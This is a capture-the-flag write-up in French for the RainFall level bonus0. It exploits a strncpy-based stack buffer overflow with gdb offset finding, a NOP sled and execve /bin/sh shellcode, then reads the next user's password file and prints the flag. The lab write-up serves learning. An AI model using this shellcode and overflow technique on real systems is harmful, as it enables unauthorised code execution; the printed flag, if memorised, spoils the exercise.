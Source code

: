 # bonus0

On a un exécutable un peu plus complexe que les précédents, le main appelle la fonction `pp()` qui va appeler `p()` 2 fois puis concaténer les 2 inputs.
`p()` va attendre un input, puis copier son contenu dans char * passé en paramètre. La copie se fait avec `strncpy` , on voit dans le man que si la chaine copiée est plus longue ou de longueur égale au paramètre passé, elle ne sera pas nul-terminée. Dans ce cas, on se retrouvera donc avec le buffer du 2ème input qui sera collé au premier:

```sh
bonus0@RainFall:~$ ./bonus0 
 - 
01234567890123456798
 - 
abcdef
01234567890123456798abcdef abcdef
```

On remarque que le programme crash si le premier argument est >= à 20 ET que le 2ème argument respecte la même condition, probablement car dans ce cas, on dépasse la capacité du buffer du main une fois que les 2 input ont été concaténés

En utilisant l'offset finder, on voit que `eip` se trouve à 9 adresses du début du second buffer dans le cas ou le premier n'est pas nul-terminé
```sh
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
aaaaaaaaaaaaaaaaaaaaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```

L'idée va donc être de remplacer `eip` par l'adresse du premier buffer qui contiendra notre shellcode

On doit donc trouver l'adresse du premier buffer à l'aide de gdb, on commence par trouver l'instruction dans laquelle le buffer est passé en argument à `read`

```assembly
(gdb) disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:    push   %ebp
   0x080484b5 <+1>:    mov    %esp,%ebp
   0x080484b7 <+3>:    sub    $0x1018,%esp
   0x080484bd <+9>:    mov    0xc(%ebp),%eax
   0x080484c0 <+12>:    mov    %eax,(%esp)
   0x080484c3 <+15>:    call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:    movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax  ;<----- ici
```

On met donc un breakpoint à cette instruction, puis on va récupérer la valeur du registre `ebp-0x1008`

```sh
(gdb) b *p+28
Breakpoint 1 at 0x80484d0
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 

Breakpoint 1, 0x080484d0 in p ()
(gdb) x $ebp-0x1008
0xbfffe680:    0x00000000
```

On connait donc désormais l'adresse du 1er buffer (`0xbfffe680`), et l'offset de `eip` dans le second buffer, on peut donc commencer à créer notre payload

Le contenu de notre payload sera le suivant:

```
     [               arg 1        ][                              arg 2                                    ]
     |            shellcode             offset (9x "A")  +   adresse du premier buffer  + padding (7x "A") |
     ^                                                                                                     ^
start address                                                                                          end address
```

```sh
echo $( perl -e 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";') > /tmp/first

echo $(perl -e 'print  "A"x9 . "\x80\xe6\xff\xbf" . "A"x7;') > /tmp/second```

```sh
bonus0@RainFall:~$ cat /tmp/second - | cat /tmp/first - | ./bonus0 
 - 
 - 
j
 X�Rh//shh/bin��1��AAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���

a
Illegal instruction (core dumped)
```
En essayant ce payload, on voit qu'on se retrouve dans un prompt, puis, en entrant un input, le program crash avec l'erreur illegal instruction

On en a déduit que le shellcode ne devrait probablement pas se trouver dans la partie du buffer qui est affichée. Vu qu'on connait l'adresse du buffer qui contient le read, on peut mettre le shellcode plus loin dans ce buffer en remplissant les 100 premiers bytes (nombre arbitraire), de NOP

```sh
echo $( perl -e 'print "\x90"x100 . "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";') > /tmp/first

echo $(perl -e 'print  "A"x9 . "\xe4\xe6\xff\xbf" . "A"x7;') > /tmp/second
```

notre overwrite de eip pointe désormais vers 0xBFFFE6E4 qui est l'adresse a 100 bytes de 0xbfffe680

```sh
bonus0@RainFall:~$ cat /tmp/second - | cat /tmp/first - | ./bonus0 
 - 
 - 
��������������������AAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

